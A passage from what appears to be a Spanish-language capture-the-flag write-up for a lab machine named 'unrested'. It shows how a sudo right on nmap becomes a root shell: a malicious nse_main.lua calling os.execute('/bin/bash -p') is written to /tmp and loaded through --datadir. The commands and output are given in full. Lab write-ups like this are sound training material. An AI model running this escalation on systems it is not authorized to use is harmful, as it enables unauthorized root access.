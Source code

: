 Sabemos que los scripts de `nmap` utiliza un lenguaje que utiliza un interprete de lua, por lo cual podemos buscar cual es el archivo que se ejecuta al hacer un escaneo con el parámetro `-sC`, una búsqueda en Google revela que este archivo se llama `nse_main.lua`

Podemos buscar donde se encuentra este archivo.
```console
zabbix@unrested:/$ find / -type f -name nse_main.lua 2>/dev/null
/usr/share/nmap/nse_main.lua
```


Entonces, vamos a crear un archivo `nse_main.lua` en la ruta `/tmp` para ejecutar un comando a nivel de sistema.
```console
zabbix@unrested:/tmp$ echo "os.execute('/bin/bash -p')" > nse_main.lua
```

Entonces, si ahora utilizamos el parámetro `--datadir`, podemos cambiar el path para en vez de buscar el script `nse_main.lua` en `/usr/share/nmap`, lo busque en `/tmp` y se cargue nuestro script malicioso.
```console
zabbix@unrested:/tmp$ sudo /usr/bin/nmap --datadir=/tmp 127.0.0.1 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-06 17:52 UTC
root@unrested:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Happy Hacking! 🚀
